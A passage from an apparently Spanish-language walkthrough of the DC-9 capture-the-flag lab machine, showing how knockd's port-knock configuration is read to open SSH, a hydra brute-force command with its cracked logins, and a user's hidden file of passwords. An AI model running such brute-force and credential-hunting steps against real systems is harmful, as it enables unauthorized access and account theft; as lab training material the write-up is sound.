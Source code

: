 ![](https://eidd3.github.io/assets/img/DC9/Untitled14.png)

Haciendo la conversión de “0016” a decimal da “22”, por lo que el servicio SSH está activo en la máquina, esto lo sabíamos desde el escaneo con Nmap, aunque nosotros lo veíamos en estado “filtered”.

Si vemos qué procesos están corriendo en la máquina aparece knockd.


![](https://eidd3.github.io/assets/img/DC9/Untitled15.png)

Si buscamos el archivo de configuración de knockd, podemos ver la secuencia para abrir el puerto “22”.

![](https://eidd3.github.io/assets/img/DC9/Untitled16.png)

Y ahora que parece estar en estado open y teniendo una lista de usuarios y contraseñas que sacamos de la base de datos, se podría intentar hacer fuerza bruta para tratar de ingresar por SSH.

```bash
hydra -L Username -P Passwords ssh://192.168.1.17

[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task
[DATA] attacking ssh://192.168.1.17:22/
[22][ssh] host: 192.168.1.17   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.17   login: janitor   password: Ilovepeepee
[22][ssh] host: 192.168.1.17   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 3 valid passwords found
```

Los 3 son válidos para conectarnos por SSH, pero el usuario janitor tiene en su directorio personal un archivo con contraseñas.

```bash
janitor@dc-9:~$ ls -la
total 16
drwx------  4 janitor janitor 4096 Mar 18 13:43 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Mar 18 13:43 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
janitor@dc-9:~$ cd .secrets-for-putin/
janitor@dc-9:~/.secrets-for-putin$ ls -la
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Mar 18 13:43 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```
